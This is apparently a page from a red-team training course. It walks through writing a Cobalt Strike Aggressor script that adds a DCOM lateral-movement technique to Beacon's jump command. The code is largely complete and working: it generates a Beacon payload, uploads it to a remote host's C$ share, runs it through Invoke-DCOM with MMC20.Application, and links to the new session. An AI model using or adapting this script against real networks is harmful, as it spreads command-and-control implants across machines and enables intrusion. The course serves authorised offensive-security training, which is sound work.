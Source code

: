 Aggressor can be used to register new techniques under `jump` and `remote-exec` using [beacon_remote_exploit_register](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exploit_register) and [beacon_remote_exec_method_register](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exec_method_register) respectively.

In this example, we'll integrate `Invoke-DCOM.ps1` into `jump`.  First, create a new text file in Visual Studio and save is somewhere as `dcom.cna`.  Then add the following skeleton.
```
sub invoke_dcom
{
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```
  

This will register "dcom" as a new option inside the jump command and specifies `invoke_dcom` as the associated callback function.  The first thing to add inside this callback are some local variable declarations.
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```
  

`local` defines variables that are local to the current function, so they will disappear once executed.  Sleep can have `global`, `closure-specific` and `local` scopes.  More information can be found in **5.2 Scalar Scope** of the Sleep manual.

The next step is to acknowledge receipt of the task using [btask](https://download.cobaltstrike.com/aggressor-script/functions.html#btask).  This takes the ID of the Beacon, the text to post and an ATT&CK tactic ID.  This will print a message to the Beacon console and add it to the data model used in the activity and session reports that you can generate from Cobalt Strike.
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");
}
```
  

You'll notice `$1`, `$2` and `$3` variables here which are automatically passed in by the client.  Where:

- $1 is the Beacon ID.
- $2 is the target to jump to.
- $3 is the selected listener.

Furthermore, [listener_describe](https://download.cobaltstrike.com/aggressor-script/functions.html#listener_describe) expands a listener name into a more detailed description.  For example, instead of "smb" it will say "windows/beacon_bind_pipe (\\.\pipe\<pipename>)".

  

Next, we want to read in the Invoke-DCOM script from our machine.  This can be done [openf](http://sleep.dashnine.org/manual/openf.html), [getFileProper](http://sleep.dashnine.org/manual/getFileProper.html) and [script_resource](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#script_resource).  Notice how we're assigning values to the variables we declared at the start.
```
# read the script
$handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
$script = readb($handle, -1);
closef($handle);
```
  

The `$script` variable now holds the raw content of Invoke-DCOM.ps1.  For Beacon to utilise it, we can use [beacon_host_script](https://download.cobaltstrike.com/aggressor-script/functions.html#beacon_host_script) - this will host the script inside Beacon and returns a short snippet for running it.
```
# host the script in Beacon
$oneliner = beacon_host_script($1, $script);

  If you want to see the content of these variables, you can use `println($oneliner);` and they'll appear in the Script Console (_Cobalt Strike > Script Console_).
```
  

The next step is to generate and upload a payload to the target using [artifact_payload](https://download.cobaltstrike.com/aggressor-script/functions.html#artifact_payload)and [bupload_raw](https://download.cobaltstrike.com/aggressor-script/functions.html#bupload_raw).  This will generate an EXE payload and upload it to the target in the `C:\Windows\Temp` directory.
```
# generate stageless payload
$payload = artifact_payload($3, "exe", "x64");

# upload to the target
bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);
```

  `$+` concatenates an interpolated string and requires additional whitespaces on each end.
  

Then, [bpowerpick](https://download.cobaltstrike.com/aggressor-script/functions.html#bpowerpick) can execute the Invoke-DCOM oneliner.  We pass it the target computer name and the path to the uploaded payload.  Also, because this could be a P2P payload - we want to automatically try and link to it, which can be done with [beacon_link](https://download.cobaltstrike.com/aggressor-script/functions.html#beacon_link).
```
# run via powerpick
bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

# link if p2p beacon
beacon_link($1, $2, $3);
```
  

The final script:
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```
  

Make sure to load the script via the Script Manger (_Cobalt Strike > Script Manager_).

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/366/02f/055/dcom.png)

  

The flexibility of Aggressor means that we can leverage anything from PowerShell, execute-assembly, shellcode injection, DLL injection and more.